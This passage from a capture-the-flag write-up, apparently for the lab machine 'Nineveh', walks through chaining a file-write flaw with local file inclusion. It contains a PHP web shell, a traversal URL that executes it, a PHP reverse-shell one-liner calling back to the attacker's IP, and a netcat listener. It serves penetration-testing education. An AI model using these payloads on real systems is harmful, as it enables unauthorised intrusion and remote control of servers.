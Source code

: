 This is exactly the vulnerability I was hoping to find! This vulnerability allows me to drop a malicious file on the server and the LFI vulnerability we found earlier allows me to call and execute my malicious file.

## Gaining an Initial Foothold <a id="0917"></a>

In the **Create New Database** section, create a new database called random.php. Then click on random.php in the **Change Database** section. There, create a new table called _random_ with _1_ field. In the **Field** parameter add the following code and change the **Type** to _TEXT_.

```text
<?php echo system($_REQUEST ["cmd"]); ?>
```

![](https://miro.medium.com/max/864/1*sd8OxwsILFYUSd-lsWkosw.png)

Click **Create**. As mentioned in the below image, the file is created in the directory /var/tmp.

![](https://miro.medium.com/max/653/1*YESlKID92HzlKbVxaNrIpg.png)

Now, let’s go back to the LFI vulnerability and execute our php code.

```text
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/random.php&cmd=ls
```

We get back the following page.

![](https://miro.medium.com/max/956/1*lJlymLsD4O7ijnZqS2XJdg.png)

We have code execution! Let’s intercept the request in Burp and add a reverse shell to the cmd parameter.

First, visit pentestmonkey and get the code for a php reverse shell.

```text
php -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Then add the code to the cmd parameter in Burp and URL encode it \(Ctrl+U\).

![](https://miro.medium.com/max/689/1*oX7F42n0flGOiLq1XrJf9A.png)

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Send the request. We have a shell!

![](https://miro.medium.com/max/798/1*mcofvN8OWNirFroW5SOJig.png)

Let’s upgrade it to a partially interactive bash shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
